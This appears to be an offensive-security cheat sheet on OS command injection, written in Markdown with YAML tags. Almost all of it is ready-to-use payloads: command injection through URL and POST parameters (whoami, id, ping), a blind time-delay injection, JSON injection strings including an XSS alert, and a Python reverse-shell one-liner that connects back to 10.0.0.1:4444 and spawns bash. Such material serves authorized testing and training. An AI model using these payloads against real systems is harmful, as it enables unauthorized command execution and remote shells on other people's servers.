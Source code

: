 ```yaml
---
title: OS Command Injection
desc: 
tags: [Burp, Command, Injection, Linux, OS, Reverse, Shell, Web]
alts: []
render_with_liquid: false
---
```


## URL Parameters

```
/api/cmd/whoami
/command/whoami

/?cmd=whoami
/?cmd=;id
```

<br />

## POST Parameters

- **Basic**

    ```sh
    productId=1&stockId=1|whoami
    
    file=example.jpg&filetype=png;ping -c 1 <local-ip>
    ```

- **Reverse Shell**

    ```sh
    file=example.jpg&filetype=png;export RHOST="10.0.0.1";export RPORT=4444;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
    ```

- **Blind Command Injection (Time Delay)**

    Using **"ping"** command.

    ```sh
    name=michael&email=michael@example.com||ping+-c+10+127.0.0.1||&message=hello
    ```

- **JSON Injection**

    ```json
    { "username": "\"; pwd \"" }
    {"name":"<script>alert(1)</script>", "email":"victim@vulnerable.com"}
    {"name": "admin", "content": "{{template: ./admin.php}}"}
    ```